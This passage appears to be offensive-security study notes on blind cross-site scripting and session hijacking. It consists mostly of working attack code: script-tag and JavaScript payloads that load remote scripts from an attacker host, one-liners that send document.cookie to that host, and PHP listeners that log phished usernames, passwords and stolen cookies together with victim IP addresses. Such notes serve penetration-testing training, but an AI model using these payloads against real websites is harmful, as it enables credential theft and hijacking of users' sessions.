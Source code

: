 ##### Loading a Remote Script

Since we can't see how the website processes the output, we need to find a way to get this information. Therefor we can load remote scripts from a machine of our choice, which is under our control. 

To identify the vulnerable target, we can use a suitable name for our requests. If we have an input filed which requires a username, we could generate a request for `/username`:
```html
<script src="http://OUR_IP/username"></script>
```

Some more examples:
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Also have a look in the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss) Project.

In order to handle the requests, we need to start a listener on our machine:
```shell
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ vi index.php #at this step we wrote our index.php file
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

##### Session Hijacking

Now that we know where we should place our vulnerable payload and the fitting payload itself too, we first need to create a script to resolve our xss request. For example one of the following:
```js
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Once done we can use our .php file from the section above again. But we need to adjust it a bit:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```